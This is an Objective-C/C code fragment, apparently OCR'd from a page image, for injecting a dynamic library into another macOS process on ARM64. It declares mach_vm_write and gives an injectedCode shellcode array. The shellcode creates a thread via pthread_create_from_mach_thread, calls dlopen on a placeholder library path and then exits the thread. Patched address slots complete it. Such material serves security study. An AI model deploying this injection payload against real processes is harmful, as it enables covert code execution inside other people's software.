 ```objectivec
kern_return_t mach_vm_write
(
vm_map_t target_task,
mach_vm_address_t address,
vm_offset_t data,
mach_msg_type_number_t dataCnt
);


#else
#include <mach/mach_vm.h>
#endif


#define STACK_SIZE 65536
#define CODE_SIZE 128


char injectedCode[] =

// "\x00\x00\x20\xd4" // BRK X0     ; // useful if you need a break :)

// Call pthread_set_self

"\xff\x83\x00\xd1" // SUB SP, SP, #0x20         ; Allocate 32 bytes of space on the stack for local variables
"\xFD\x7B\x01\xA9" // STP X29, X30, [SP, #0x10] ; Save frame pointer and link register on the stack
"\xFD\x43\x00\x91" // ADD X29, SP, #0x10        ; Set frame pointer to current stack pointer
"\xff\x43\x00\xd1" // SUB SP, SP, #0x10         ; Space for the
"\xE0\x03\x00\x91" // MOV X0, SP                ; (arg0)Store in the stack the thread struct
"\x01\x00\x80\xd2" // MOVZ X1, 0                ; X1 (arg1) = 0;
"\xA2\x00\x00\x10" // ADR X2, 0x14              ; (arg2)12bytes from here, Address where the new thread should start
"\x03\x00\x80\xd2" // MOVZ X3, 0                ; X3 (arg3) = 0;
"\x68\x01\x00\x58" // LDR X8, #44               ; load address of PTHRDCRT (pthread_create_from_mach_thread)
"\x00\x01\x3f\xd6" // BLR X8                    ; call pthread_create_from_mach_thread
"\x00\x00\x00\x14" // loop: b loop              ; loop forever

// Call dlopen with the path to the library
"\xC0\x01\x00\x10"  // ADR X0, #56  ; X0 => "LIBLIBLIB...";
"\x68\x01\x00\x58"  // LDR X8, #44 ; load DLOPEN
"\x01\x00\x80\xd2"  // MOVZ X1, 0 ; X1 = 0;
"\x29\x01\x00\x91"  // ADD   x9, x9, 0  - I left this as a nop
"\x00\x01\x3f\xd6"  // BLR X8     ; do dlopen()

// Call pthread_exit
"\xA8\x00\x00\x58"  // LDR X8, #20 ; load PTHREADEXT
"\x00\x00\x80\xd2"  // MOVZ X0, 0 ; X1 = 0;
"\x00\x01\x3f\xd6"  // BLR X8     ; do pthread_exit

"PTHRDCRT"  // <-
"PTHRDEXT"  // <-
"DLOPEN__"  // <-
"LIBLIBLIBLIBLIBLIBLIBLIBLIBLIBLIBLIBLIBLIBLIBLIBLIBLIBLIBLIBLIBLIBLIBLIB"
"\x00" "\x00" "\x00" "\x00" "\x00" "\x00" "\x00" "\x00" "\x00" "\x00" "\x00" "\x00"
"\x00" "\x00" "\x00" "\x00" "\x00" "\x00" "\x00" "\x00" "\x00" "\x00" "\x00" "\x00"
"\x00" "\x00" "\x00" "\x00" "\x00" "\x00" "\x00" "\x00" "\x00" "\x00" "\x00" "\x00"
"\x00" "\x00" "\x00" "\x00" "\x00" "\x00" "\x00" "\x00" "\x00" "\x00" "\x00" "\x00"
"\x00" "\x00" "\x00" "\x00" "\x00" "\x00" "\x00" "\x00" "\x00" "\x00" "\x00" "\x00" ;



```